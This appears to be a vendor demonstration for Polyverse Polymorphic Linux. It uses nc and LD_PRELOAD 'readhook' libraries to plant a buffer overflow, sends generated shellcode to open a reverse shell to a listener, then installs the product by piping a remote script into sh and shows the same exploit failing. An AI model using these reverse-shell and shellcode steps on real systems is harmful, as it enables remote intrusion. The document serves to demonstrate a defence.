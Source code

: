 # Demonstration: Polyverse Polymorphic Linux
## Set up for a Reverse Shell
### (1) Start nc listening on port 5555 (Session-1)
    nc -kl 5555
## Run a simple nc echo server under Readhook
### (2) Start with a clean alpine:3.7 (Session-2)
    docker run --rm -it -p 8080:8080 alpine:3.7 sh
### (2) We'll need curl and wget
    apk update && apk add curl wget ca-certificates && update-ca-certificates
### (2) Get readhook components
    wget -q -O /tmp/basehook.so https://github.com/polyverse/readhook/releases/download/v1.1.1/basehook.so
    wget -q -O /tmp/fullhook.so https://github.com/polyverse/readhook/releases/download/v1.1.1/fullhook.so
### (2) Start nc with readhook in front of libc
    LD_PRELOAD="/tmp/fullhook.so /tmp/basehook.so" nc -l -p 8080 -e /bin/cat
## Generate Shell-Code and Perform Exploit
### (3) Generate shell-code for the exploit (Session-3)
    export shellCode=$(echo "xyzzxMAKELOADdocker.for.mac.localhost" | nc localhost 8080)
### (2) Re-start nc with minimal readhook in front of libc
    LD_PRELOAD=/tmp/basehook.so nc -l -p 8080 -e /bin/cat
### (3) Send shell-code to the OVERFLOW for a reverse shell
    echo $shellCode | nc localhost 8080
### (1) Check that the overflow resulted in a remote shell
    ls && whoami && exit
## Install Polyverse Polymorphic Linux
### (2) Add Polyverse as the preferred repository
    curl https://repo.polyverse.io/install.sh | sh -s vZ2v3Bo4Kbnwj9pECrLsoGDDo
### (2) Replace standard packages with Polymorphic Linux
    sed -n -i '/repo.polyverse.io/p' /etc/apk/repositories && apk upgrade --update-cache --available
## Test Polyverse Polymorphic Linux
### (2) Re-start nc with minimal readhook
    LD_PRELOAD=/tmp/basehook.so nc -l -p 8080 -e /bin/cat
### (3) Try the shellCode with Polymorphic Linux
    echo $shellCode | nc localhost 8080
### (1) Confirm that nobody phoned-home to the listener
### (2) Confirm that the server terminated abnormally (e.g. Segmentation fault)
